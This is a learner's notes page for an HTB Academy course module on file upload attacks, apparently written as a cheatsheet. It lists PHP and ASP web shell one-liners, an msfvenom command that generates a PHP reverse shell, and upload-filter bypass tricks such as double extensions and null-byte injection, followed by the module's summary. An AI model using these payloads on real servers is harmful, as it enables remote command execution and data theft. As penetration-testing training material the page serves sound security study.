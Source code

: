# File Upload Attacks

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[HTB Academy]]

![[logo_file_upload_attacks.png]]

Arbitrary file uploads are among the most critical web vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server and all web applications hosted on it and potentially gain access to sensitive data or cause a service disruption.

### Cheatsheet

#### Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

#### Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Insepctor |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

#### Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |

### Module Summary

Many modern web applications have file upload capabilities, which are usually necessary for the web application's functionality to enable features like attaching files or changing a user's profile image. If the file upload functionality is not securely coded, it may be abused to upload arbitrary files to the back-end server, eventually leading to compromise of the back-end server.

When an attacker can upload arbitrary files to the back-end server, they can upload malicious files, like web shells, which would enable them to execute arbitrary commands on the back-end server. This eventually allows attackers to take control over the entire server and all web applications hosted on it, which makes `File Upload Attacks` among the most critical web vulnerabilities.

This module will discuss the basics of identifying and exploiting file upload vulnerabilities and identifying and mitigating basic security restrictions in place to reach arbitrary file uploads.

In addition to the above, the `File Upload Attacks` module will teach you the following:

-   What are file upload vulnerabilities?
-   Examples of code vulnerable to file upload vulnerabilities
-   Different types of file upload validations
-   Detecting and exploiting basic file upload vulnerabilities
-   Bypassing client-side file upload validation
-   Bypassing blacklisted and whitelisted extension validation
-   Bypassing type and content validation
-   Bypassing other basic security restrictions
-   Attacking upload forms with limited allowed file types
-   Preventing file upload vulnerabilities through secure validation techniques

* * * * *

This module is broken into sections with accompanying hands-on exercises to practice each of the tactics and techniques we cover. The module ends with a practical hands-on skills assessment to gauge your understanding of the various topic areas.

You can start and stop the module at any time and pick up where you left off. There is no time limit or "grading," but you must complete all of the exercises and the skills assessment to receive the maximum number of cubes and have this module marked as complete in any paths you have chosen.

As you work through the module, you will see example commands and command output for the various topics introduced. It is worth reproducing as many of these examples as possible to reinforce further the concepts presented in each section. You can do this in the `PwnBox` provided in the interactive sections or your virtual machine.

The module is classified as "`Medium`" and assumes a working knowledge of the Linux command line and an understanding of information security fundamentals. The module also assumes a basic understanding of web applications and web requests. It will build on this understanding to teach how Arbitrary File Upload vulnerabilities work and how to exploit them.

In addition to the above, a firm grasp of the following modules can be considered as prerequisites for the successful completion of this module:

-   Linux Fundamentals
-   Web Requests
-   Introduction to Web Applications
-   Using Web Proxies
-   Web Attacks